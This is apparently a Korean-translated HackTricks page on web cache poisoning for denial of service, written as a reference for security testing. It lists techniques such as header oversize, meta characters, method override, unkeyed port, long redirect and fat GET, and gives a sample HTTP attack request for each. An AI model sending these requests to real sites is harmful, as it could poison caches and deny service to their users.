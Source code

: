 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
이 페이지에서는 **캐시 서버에 유효한** 요청에 대해 **웹 서버가 오류로 응답하도록** 시도할 수 있는 다양한 변형을 찾을 수 있습니다.
{% endhint %}

* **HTTP Header Oversize (HHO)**

웹 서버가 지원하는 것보다 큰 헤더 크기로 요청을 보내되, 캐시 서버가 지원하는 것보다 작은 헤더 크기로 요청을 보냅니다. 웹 서버는 캐시될 수 있는 400 응답으로 응답할 것입니다:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP 메타 문자 (HMC) 및 예상치 못한 값**

` \n` 및 `\r`과 같은 **유해한 메타 문자**를 포함하는 헤더를 전송합니다. 공격이 작동하려면 먼저 캐시를 우회해야 합니다.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A badly configured header could be just `\:` as a header.

이것은 예상치 못한 값이 전송될 경우에도 작동할 수 있습니다. 예를 들어 예상치 못한 Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **키가 없는 헤더**

일부 웹사이트는 요청에 _X-Amz-Website-Location-Redirect: someThing_ 헤더와 같은 특정 헤더가 **보이면** 오류 상태 코드를 반환합니다.
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP 메서드 오버라이드 공격 (HMO)**

서버가 `X-HTTP-Method-Override`, `X-HTTP-Method` 또는 `X-Method-Override`와 같은 헤더로 HTTP 메서드를 변경하는 것을 지원하는 경우, 메서드를 변경하여 유효한 페이지를 요청할 수 있습니다. 이렇게 하면 서버가 이를 지원하지 않으므로 잘못된 응답이 캐시됩니다:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

Host 헤더의 포트가 응답에 반영되고 캐시 키에 포함되지 않는 경우, 사용되지 않는 포트로 리디렉션할 수 있습니다:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

다음 예와 같이, x는 캐시되지 않으므로 공격자는 리디렉션 응답 동작을 악용하여 리디렉션이 너무 큰 URL을 보내도록 만들어 오류를 반환할 수 있습니다. 그런 다음 uncached x 키 없이 URL에 접근하려는 사람들은 오류 응답을 받게 됩니다:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **호스트 헤더 대소문자 정규화**

호스트 헤더는 대소문자를 구분하지 않아야 하지만 일부 웹사이트는 소문자로 되어 있기를 기대하며 그렇지 않을 경우 오류를 반환합니다:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **경로 정규화**

일부 페이지는 경로에 데이터 URL 인코딩을 보내면 오류 코드를 반환하지만, 캐시 서버는 경로를 URL 디코딩하고 URL 디코딩된 경로에 대한 응답을 저장합니다:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

일부 캐시 서버, 예를 들어 Cloudflare 또는 웹 서버는 본문이 있는 GET 요청을 중단하므로, 이는 잘못된 응답을 캐시하는 데 악용될 수 있습니다:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## References

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
